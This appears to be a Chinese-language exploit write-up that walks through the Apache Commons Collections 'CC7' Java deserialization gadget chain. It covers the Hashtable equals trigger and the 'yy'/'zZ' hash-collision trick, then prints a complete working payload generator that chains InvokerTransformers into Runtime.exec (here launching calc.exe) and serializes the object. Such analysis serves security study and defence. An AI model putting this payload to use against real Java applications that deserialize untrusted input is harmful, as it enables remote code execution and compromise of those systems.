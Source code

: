 # CommonsCollections7

## 写在前面

由于是第一次跟踪CC7所以这一条写详细一点

## 利用链跟踪简单分析

这条链子是利用HashTable，我们来看看readObject方法![](img/1.png)

这里的key与value就是我们自己存进去的，继续跟进`reconstitutionPut`方法

![](img/2.png)

可以看到如果这里hash与之前某个存入的相等那就会调用其`equals`方法，这里看了网上`payload`是让这个`e.key`为一个`Lazymap`对象，可以看到`LazyMap`本身没有equals方法

![](img/3.png)

this.map为传入的HashMap

![](img/4.png)

之后就可以通过调用Lazymap的get触发整个命令执行的流程![](img/5.png)

### hash相等的构造

我们知道整个流程当中很重要的一环就是要让hash值相等![](img/6.png)

我们来看看这个hashcode的计算方法，key与value的分别计算并异或，值我们可以设置的相同，但是如何让key的hashcode也一致

![](img/7.png)

是对String的hashcode

![](img/8.png)

看到这里就很明确了，首先y比z小1，经过第一轮循环后h的差值就差31，所以我们可以控制第二个字符是y与Z，前面比后面大31刚好抵消了这个差距

![](img/9.png)

### 为什么下面的payload当中有一个lazyMap2.remove("yy");

这里m.size是1，size若没这个过程则是2就不相等了

![](img/10.png)

## 完整payload

```Java
package bcell;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC7 {
    public static void main(String[] args) throws IllegalAccessException, NoSuchFieldException, IOException, ClassNotFoundException {

        Transformer[] fakeTransformers = new Transformer[] {};

        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] { String.class}, new String[] {"calc.exe"}),
        };

        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);


        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        lazyMap2.remove("yy");
        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc7.bin"));
            outputStream.writeObject(hashtable);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc7.bin"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```

